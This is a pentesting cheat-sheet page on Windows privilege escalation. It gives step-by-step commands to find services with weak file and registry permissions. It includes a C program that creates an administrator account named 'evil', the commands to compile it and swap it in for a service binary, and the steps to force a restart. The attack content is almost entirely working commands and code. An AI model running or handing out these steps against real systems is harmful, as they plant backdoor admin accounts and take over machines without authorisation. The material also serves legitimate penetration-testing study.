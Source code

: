 ## Weak File Permissions

{% code overflow="wrap" fullWidth="true" %}
```powershell
# CHECK RUNNING SERVICES
PS > Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
# IF THERE IS ANYTHING IN PROGRAM FILES OR OUT OF SYSTEM32 --> CHECK WITH
icacls $EXECUTABLE_PATH

# THEN CREATE THIS adduser.c FILE TO ADD A NEW ADMINISTRATOR
#include <stdlib.h> 
int main ()
{
	int i; 
	
	i = system ("net user evil Ev!lpass /add"); 
	i = system ("net localgroup administrators evil /add");
return 0; 
}

# COMPILE WITH
i686-w64-mingw32-gcc adduser.c -o adduser.exe
# RENAME THE ORIGINAL AND REPLACE IT WITH OURS
move file.exe file-original.exe
move adduser.exe file.exe
# RESTART THE SERVICE IF POSSIBLE
net stop $SERVICE
# If we cannot stop the service, we check if the service is set to "Automatic" to restart it when rebooting BY CHECKING "SESHUTDOWN PRIVILEGE"
wmic service where caption="$SERVICE" get name, caption, state, startmode
# Check if we have SeShutdown...
whoami /priv
# Note that the Disabled state only indicates if the privilege is currently enabled for the running process (if it appears, we have it no matter the state).
shutdown /r /t 0
# FINALLY CHECK IF THE NEW USER WAS ADDED
net localgroup Administrators
```
{% endcode %}

## **Service Escalation**

{% tabs %}
{% tab title="Registry" %}
#### [**https://github.com/sagishahar/scripts**](https://github.com/sagishahar/scripts)

{% code overflow="wrap" %}
```bash
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
# 1. get a list of all services 
accesschk64.exe -kvusw hklm\System\CurrentControlSet\services
powershell -nop -exec bypass -c "Get-Acl -Path hklm:\System\CurrentControlSet\services\* | select Path,AccessToString | Format-List"
# 2. copy the list to a text editor vim/nano... 
# 3. search for following strings (based on powershell output)
    "NT AUTHORITY\INTERACTIVE Allow  FullControl" # (Everybody that logs in on physical computer, gets assigned to group INTERACTIVE)
    "BUILTIN\Users Allow  FullControl "
    "NT AUTHORITY\Authenticated Users FullControl"
    "Everyone Allow FullControl"
    other groups you are part of (whoami /all)
```